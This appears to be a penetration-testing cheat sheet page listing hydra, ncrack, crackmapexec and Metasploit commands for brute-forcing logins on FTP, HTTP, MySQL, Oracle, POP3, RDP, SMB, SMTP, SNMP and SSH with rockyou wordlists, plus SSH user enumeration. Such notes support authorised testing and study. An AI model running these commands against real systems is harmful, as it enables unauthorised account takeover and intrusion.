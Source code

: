 +++
menus = 'main'
title = 'Services'
collapsibleMenu = true
alwaysopen = false

+++

## Services

FTP - Known user and rockyou password list

```bash
hydra -t 1 -l $user -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
```

HTTP - hydra http-post request known user

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt $ip http-post-form "<Login Page>:<Request Body>:<Error Message>" -v -V
```

HTTP - hydra http-get request known users

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt -f $ip http-get /svn -V -I
```

MYSQL - Known user and rockyou password list

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt $ip mysql
```

MYSQL - Username list and rockyou password list

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $ip mysql
```

MYSQL - Metasploit

```bash
use auxiliary/scanner/mysql/mysql_login
```

ORACLE - Hydra password attack rockyou password list

```bash
hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 $ip oracle-listener
```

POP3 - Known user and rockyou password list

```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt -f $ip pop3 -V
```

RDP - Known user and rockyou password list

```bash
hydra -t 1 -V -f -l $user -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

RDP - Known user and rockyou password list

```bash
ncrack -vv --user $user -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

SMB - Metasploit

```bash
use auxiliary/scanner/smb/smb_login
```

SMB - Known user and rockyou password list

```bash
hydra -t 1 -V -f -l $user -P /usr/share/wordlists/rockyou.txt $ip smb
```

SMB - User & password list

```bash
crackmapexec smb $ip -u users.txt -p users.txt --continue-on-success
```

SMTP - Known user and rockyou password list

```bash
hydra -P /usr/share/wordlists/rockyou.txt $ip smtp -V
```

SNMP - Known user and rockyou password list

```bash
hydra -P /usr/share/wordlists/rockyou.txt -v $ip snmp
```

SSH - Enumerate users with metasploit

```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

SSH - Quick Known user and rockyou password list

```bash
hydra $ip -s 22 ssh -l $user -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt -F
```

SSH - Known user and rockyou password list

```bash
hydra $ip -s 22 ssh -l $user -P /usr/share/wordlists/rockyou.txt -V -F
```

SSH - Username list and rockyou password list

```bash
hydra -F -L users.txt -P /usr/share/wordlists/rockyou.txt -t 16 $ip
```

